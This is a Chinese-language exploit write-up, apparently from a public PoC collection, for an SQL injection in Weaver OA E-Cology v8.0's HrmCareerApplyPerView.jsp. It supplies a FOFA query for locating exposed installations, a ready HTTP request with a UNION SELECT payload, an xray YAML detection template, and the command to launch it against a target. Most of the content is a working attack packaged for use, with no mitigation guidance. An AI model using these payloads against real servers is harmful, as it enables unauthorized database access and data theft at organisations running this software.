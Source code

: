 # 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞
## 漏洞描述

泛微新一代移动办公平台e-cology8.0不仅组织提供了一体化的协同工作平台,将组织事务逐渐实现全程电子化,改变传统纸质文件、实体签章的方式。泛微OA E-Cology v8.0平台HrmCareerApplyPerView.jsp处存在SQL注入漏洞，攻击者通过漏洞可以获取数据库权限。
## 影响版本
```
泛微OA E-Cology v8.0
```

## 网络测绘
```
app="泛微-协同办公OA"
```

## 环境搭建

-

## 漏洞复现

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309200059751.png)


## 数据包
```
GET /pweb/careerapply/HrmCareerApplyPerView.jsp?id=1+union+select+1%2C2%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%27abc%27%29%29%2Cdb_name%281%29%2C5%2C6%2C7 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,like Gecko)
Accept-Encoding: gzip, deflate
Connection: close

```

## YAML代码
```
name: poc-yaml-ecology-hrmcareerapplyperview-sql
manual: true
transport: http
set:
  s1: randomInt(8000, 10000)
rules:
  r0:
    request:
      cache: true
      method: GET
      path: /pweb/careerapply/HrmCareerApplyPerView.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{s1}}')),4,5,6,7
    expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(s1)), 0, 31)))
expression: r0()
detail:
  author: klear
  links:
    - https://peiqi.wgpsec.org/wiki/oa/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEOA%20E-Cology%20HrmCareerApplyPerView.jsp%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html

```

## xray调用

```
xray ws --poc poc-yaml-ecology-HrmCareerApplyPerView-sql.yml --url xx.xx.xx.xx
```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309200145918.png)
